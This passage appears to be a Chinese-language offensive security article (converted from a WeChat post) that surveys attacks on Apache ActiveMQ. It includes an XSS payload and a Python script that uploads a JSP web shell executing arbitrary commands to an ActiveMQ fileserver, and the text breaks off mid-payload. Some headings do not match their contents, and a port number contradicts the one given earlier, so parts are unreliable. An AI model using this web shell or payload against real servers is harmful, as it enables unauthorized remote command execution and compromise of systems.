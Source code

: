 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/edJ1ZDLzHaNLX6RpuregPQ)

**目录**

ActiveMQ

攻击方式

寻找目标

弱口令

未授权访问

源代码泄露

XSS 漏洞

远程代码执行漏洞

反序列化漏洞

ActiveMQ
--------

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务、集群、Spring Framework 等。随着中间件的启动，会打开两个端口，61616 是工作端口，消息在这个端口进行传递；8161 是 Web 管理页面端口。

Jetty 是一个开源的 servlet 容器，它为基于 Java 的 web 容器，例如 JSP 和 servlet 提供运行环境。ActiveMQ 5.0 及以后版本默认集成了 jetty。在启动后提供一个监控 ActiveMQ 的 Web 应用。

攻击方式
----

下面总结一下针对 ActiveMQ 消息中间件的攻击方式，总结来源于 wooyun、vulhub、exploit-db。

### 寻找目标

1、由于这个中间件会开放 8363 端口和 61616 端口，因此可以通过扫描端口，发现存在该服务的服务器，从而进行攻击。

2、由于 ActiveMQ 5.0 及以后版本默认集成了 jetty，因此也可以通过 headers 头信息中查看服务器信息判断，但这个不足以确定服务器安装了 ActiveMQ。

### 弱口令

```
/admin/queueBrowse/example.A?view=rss&feedType=<script>alert("ACTIVEMQ")</script>
```

### 未授权访问

```
import requests
url = "http://192.168.0.11:8161/fileserver/shell2.txt"
headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36',
    'Cookie':'JSESSIONID=1gfll70wf7hfnbsmipaa6es3b'
    }
payload = '''
<%@ page import="java.io.*" %>
<%
  out.print("Hello</br>")
  String strcmd = request.getParameter("cmd");
  String line = null;

  Process p = Runtime.getRuntime().exec(strcmd);
  BufferedReader br =new BufferedReader(new InputStreamReader(p.getInputStream()));

  while((line = br.readLine()) != null) {
    out.print(line+"</br>");    
  }
```